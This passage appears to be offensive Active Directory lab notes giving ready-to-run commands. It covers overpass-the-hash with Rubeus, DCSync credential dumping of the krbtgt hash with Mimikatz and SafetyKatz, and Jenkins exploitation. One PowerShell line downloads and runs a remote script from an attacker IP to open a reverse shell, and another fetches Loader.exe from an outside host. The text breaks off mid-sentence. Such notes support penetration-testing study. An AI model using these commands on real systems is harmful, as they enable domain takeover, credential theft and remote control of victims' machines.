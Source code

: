 * The above command starts a powershell session with a logon type 9 (same as runas/netonly)
* Over pass the hash (OPTH) generates tokens from hashes or keys.
* Examples -
  * Below doesn't need elevation of privileges

```
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

* But
  * Below command needs elevation -

```
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

#### NOTE:

* **Pass the Hash -** For non-Domain joined machines
* **OverPass the Hash -** For Domain joined machines

### DCSync -

* To extract credentials from the DC without code ecexution on it, we can use DCSync.
* To use the DCSync features for getting krbtgt hash execute the below command with DA (Domain admin) privileges for us domain -&#x20;

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
or
SafetyKatz.exe "lsadump:dcsync /user:us\krbtgt" "exit"
```

**NOTE:** By default Domain Admin Privileges are required to run DCSync attack.



### Jenkins exploitation -

#### Get reverse shell from the '_builduser'_ using the command -

```
powershell.exe iex (iwr -UseBasicParsing http://IP_ADDRESS/Invoke-PowerShellTcp.ps1) ; Power -Reverse -IPAddress IP_ADDRESS -Port 3443
```

```
Find-DomainAdminLocation [to get Domain Admin acccess on the current user (PowerView module)]
```

#### Now, get the Loader.exe from you host -

```
 iwr http://172.16.99.60/Loader.exe -o C:\Users\Public\Loader.exe
```

To check the administrative access over the other machine which we discovered before, we can use this command  as well if we already knew the user names -
